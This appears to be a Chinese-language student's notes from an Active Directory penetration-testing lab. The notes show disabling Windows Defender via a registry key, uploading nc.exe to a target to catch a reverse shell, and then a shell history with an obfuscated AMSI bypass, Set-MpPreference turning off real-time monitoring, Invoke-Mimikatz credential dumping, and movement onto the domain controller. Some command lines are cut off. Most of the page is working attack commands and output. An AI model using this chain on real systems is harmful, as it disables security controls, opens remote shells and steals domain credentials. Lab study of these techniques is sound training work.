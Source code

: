 ```
```
PS C:\Windows\system32> netsh advfirewall show currentprofile

Domain Profile Settings:
----------------------------------------------------------------------
State                                 OFF
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096

Ok.
```

2. 关闭windows defend

获取windefand状态
```
PS C:\ad> Get-Service WinDefend

Status   Name               DisplayName
------   ----               -----------
Running  WinDefend          Windows Defender Service
```

以管理员身份运行下面powershll命令：
```reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpywar" /d 1 /t REG_DWORD```

再在教学面板reboot student VM (lab下不可以在VM里直接重启)

重新登录以后，再次查看windefand状态
```
PS C:\Windows\system32> Get-Service WinDefend

Status   Name               DisplayName
------   ----               -----------
Stopped  WinDefend          Windows Defender ServicePS C:\Windows\system32> Get-Service WinDefend

Status   Name               DisplayName
------   ----               -----------
Stopped  WinDefend          Windows Defender Service
```

已成功关闭windows defend


然后我把nc.exe传到靶机，用nc成功接收到反弹shell。我怀疑是powercat本身的问题。不过传nc之前一定要关闭WinDefend，不然有可能会被当成病毒被WinDefend杀掉。
```
PS C:\ad> .\nc.exe -lnvp 443
listening on [any] 443 ...
connect to [172.16.100.66] from (UNKNOWN) [172.16.3.11] 50406
Windows PowerShell running as user ciadmin on DCORP-CI
Copyright (C) 2015 Microsoft Corporation. All rights reserved.


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\